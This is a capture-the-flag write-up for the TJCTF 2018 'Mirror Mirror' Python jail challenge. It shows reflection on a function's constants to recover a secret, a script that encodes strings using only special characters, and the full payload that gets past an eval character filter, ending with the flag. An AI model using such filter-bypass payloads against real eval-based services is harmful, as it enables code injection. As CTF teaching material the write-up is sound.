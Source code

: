 # Mirror Mirror (Miscellaneous, 89 solved, 100 points)
###### Author: [ecurve](https://github.com/Pascalao)

```
If you look closely, you can see a reflection.

nc problem1.tjctf.org 8004
```

Firstly we take a look onto the server and found out that there is a method get_flag(), 
which are to used, because of the greeting message.

```
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
```

Now we playing a little bit around with that function and we get an error, when we type

```python
>>> get_flag("")
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 0
    
    ^
SyntaxError: unexpected EOF while parsing
```

Ok, thats cool! 
We can put something into the eval function, which evaluate our string. 
Now it is time to find out, what are allowed in the console. 
The most functions and modules are deleted in the moment or restricted. 
But we take a look into the description and there is a hint. Use reflection!

Firstly we tried *dir()* and get:

```python
>>> dir()
['__builtins__', '__doc__', '__name__', 'get_flag']
```

Can we take a deeper look into the function with reflection? 
We tried it and yes, we can look into the variables of the *get_flag* function.

```python
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>> get_flag.func_code.co_varnames
('input', 'super_secret_string', 'each', 'val')
```

Ok, the content of the *super_secret_string* should be the string *this_is_the_super_secret_string*.
But what is with the numbers behind the secret string?
The numbers are ascii characters and we found out, that all characters from a to z and A to Z are restricted.
Also restricted characters are 0 to 9 and the special characters _ and ,.
The conclusion is, that only special character can be used, to type into the function get_flag, expect _ and ,.

But wait, how it is possible to exploit that, if we can not type a string into it?

When you know how the python interpreter works internally it is possible to find a way to do that.
We remembered on a challenge in the past from a clever guy, which used only special characters to
type strings into the console or eval function. That is really cool! ([writeup](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/))

We used the same strategy to generate strings only with special characters. 
As we know from him, we can generate every string with %c%(\<number\>) and we can also compute every number
with a lot of special characters, it is possible to write the string *this_is_the_super_secret_string* 
as input into the eval function. 

We used his brainfuckize function to generate these numbers.

```python
def brainfuckize(nb):
        if nb in [-2, -1, 0, 1]:
            return ["~({}<[])", "~([]<[])","([]<[])",  "({}<[])"][nb+2]
        if nb % 2:
            return "~%s" % brainfuckize(~nb)
        else:
            return "(%s<<({}<[]))" % brainfuckize(nb/2)
```

Now we have to generate the whole string only with special characters. 
This code does it for us:

```python
    string = 'this_is_the_super_secret_string'
    result = ""
    formatter = "`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%"
    concat = '+'

    for c in string:
        result += formatter + brainfuckize(ord(c)) + concat

    print result[:-1]
```

In general we only used the possibility that we can type *'%c'%(\<number\>)* into the console only with special characters 
and get a character.
And the translation from a number to the special characters are done with the brainfuckize function.
The code with the %\xcb and the special characters behind produce the '%c'%:

```python
`'%\\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
```

The trick to compute numbers from special characters are that 
```python
{}<[] == True
``` 
and 
```python
[]<[] == False
```

And we know that True is internally a 1 and False a 0.
The special characters ```<``` and ```~``` can be used to perfom bit operations.
With that knowledge it is possible to compute every number only with the characters. 

```python
<< ~ ( )
```

It is the same logic as you learned in mathematical logic that you can build all logic compositions within a NOT and AND.

The program produce the string *'this_is_the_super_secret_string'* only with special characters:

```python
`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%
\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xc
b'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb
'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]
::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(
~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<
[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<(
{}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({
}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[])
)]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%
~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(
(((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~
((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({
}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[
])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[]
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((~(~({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<
[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[])
)<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<(
{}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({
}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[
]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))<<({}<[]))<<({}<[]))
```

When you put that string into a python console you will get the string *'this_is_the_super_secret_string'*.

The final step is to put the string into the get_flag function:

```python
>>> get_flag("`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))
<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<(
{}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({
}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[
]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`
'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'
%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\x
cb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[
{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<
[]::~(~({}<[])<<({}<[]))]%(((~(~(~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]:
:~(~({}<[])<<({}<[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::
~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}
<[])<<({}<[]))]%~((~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])
<<({}<[]))]%~(~(~(~(~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<
<({}<[]))]%((((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<
[]))]%~(~(~(~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[
]))]%(~(~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))
]%~(((((~(({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((
~((~((~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(
~((~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~(((
~(~({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~
({}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~(~(~((~(~(
{}<[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<
[])<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((((~(({}<[])<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~((~((~((~({}<[])<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%((~(~(~((~({}<[])<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(~((~((~({}<[])<<({}<[]))<
<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(~((~(~(~(~({}<[])<<({}<[]))<<
({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%(~(((~(~(~({}<[])<<({}<[]))<<({}
<[]))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))+`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%~(((~((~(~({}<[])<<({}<[]))<<({}<[]
))<<({}<[]))<<({}<[]))<<({}<[]))<<({}<[]))")
tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
```

We get the flag!

Thw whole python script are in the file [exploit.py](https://github.com/Lev9L-Team/ctf/tree/master/2018-08-07_tjctf/mirror_mirror/exploit.py).
